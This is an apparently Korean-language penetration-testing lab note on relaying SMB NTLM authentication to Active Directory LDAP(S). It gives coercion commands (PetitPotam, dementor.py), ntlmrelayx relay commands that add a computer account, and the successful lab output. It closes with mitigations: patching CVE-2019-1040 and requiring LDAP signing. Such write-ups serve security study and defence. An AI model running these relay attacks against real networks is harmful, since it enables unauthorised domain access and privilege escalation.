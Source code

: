 # SMB to LDAP/S

강제 인증, LLMNR/NBT-NS 기반의 NTLM 릴레이 공격은 피해자 서버로부터 SMB 인증 트래픽을 받아 타겟 서버의 LDAP 서비스로 릴레이 하는 것이 가능하다. 이때 공격자는 액티브 디렉토리의 LDAP 정보 덤프, 컴퓨터 계정 추가, Delegation 등을 통한 권한 상승 공격을 진행할 수 있다.&#x20;

단, SMB to SMB 에 비해 SMB to LDAP(S) 는 필요 조건들이 더 많아 성공할 확률이 더 낮다. 따라서 webdav, mitm6, 혹은 wpad 릴레이를 통한 HTTP  to LDAP(S) 가 더 자주 사용되는 편이다. 그러나 SMB to LDAP(S) 또한 공격에 성공할 경우 도메인 진입 혹은 도메인 장악이 가능하기 때문에 주의가 필요하다.&#x20;

NTLMv2 기반의SMB 인증 트래픽을 도메인컨트롤러의 LDAP(S) 서비스로 릴레이 하는 공격은 2019년도의 CVE-2019-1040 패치 이후 막혔다. 단, 아래와 같은 조건들을 만족할 때 릴레이 공격이 가능하다.

### 조건&#x20;

* NTLMv2 SMB -> LDAP: 타겟이 CVE-2019-1040에 취약 + LDAP Signing - Enabled/Disabled (Required 면 불가능)&#x20;
* NTLMv2 SMB -> LDAPS:  타겟이 CVE-2019-1040에 취약 + LDAP Signing - Disabled (Enabled/Required 면 불가능)
* NTLMv1 SMB -> LDAP: 조건 없음, 가능. 타겟이 CVE-2019-1040에 취약하지 않더라도 `--remove-MIC` 로 MIC 필드 제거 가능.&#x20;



### NTLMv2 SMB -> LDAP(S)&#x20;

#### 트리거 - 강제 인증 - Petitpotam&#x20;

```
python3 PetitPotam.py -u '' -p '' 192.168.40.132 192.168.40.160
```

#### 트리거- LLMNR/NBT-NS 포이즈닝&#x20;

이론상 가능하지만 현재 테스트 랩에서는 불가능하다. 추후 더 연구해봐야겠다.&#x20;



#### 릴레이&#x20;

```
impacket-ntlmrelayx -t ldap://192.168.40.160 -smb2support --add-computer --no-dump --no-da --no-acl --no-validate-privs --remove-mic

[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.40.150, attacking target ldap://192.168.40.160
[*] Authenticating against ldap://192.168.40.160 as CHOI/DC01$ SUCCEED
[*] Adding new computer with username: UAZZYGGM$ and password: lEE_wdrh2JD7T!M result: OK
```



### NTLMv1 SMB -> LDAP(S)&#x20;

#### 트리거 - 강제 인증 - Print Spooler&#x20;

```
python3 dementor.py -u low -p 'Password123!' -d choi.local 192.168.40.132 192.168.40.150
```

#### 트리거 - LLMNR/NBT-NS 포이즈닝&#x20;

이론상 가능하지만 현재 테스트 랩에서는 불가능하다. 추후 더 연구해봐야겠다.&#x20;

#### 릴레이&#x20;

<pre><code>./ntlmrelayx.py -t ldap://192.168.40.160 -smb2support --no-dump --no-da --no-acl --no-validate-privs --remove-mic
<strong>
</strong><strong>[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.40.150, attacking target ldap://192.168.40.160
</strong>[*] Authenticating against ldap://192.168.40.160 as / SUCCEED</code></pre>



### 대응 방안&#x20;

1. NTLMv2 - CVE-2019-1040 관련된 패치를 진행한다. 이는 도메인 컨트롤러들의 기본적인 윈도우 패치만 실행하더라도 패치되는 취약점이다.&#x20;
2. NTLMv2 - LDAP Signing 을 Required 로 설정한다. GPO 를 이용하는 것이 좋다.&#x20;

`(Default Domain Controller Policy 혹은 GPO`) `> Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies >  Security Options > Domain controller: LDAP server signing requirement` - REQUIRED 로 설정&#x20;

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
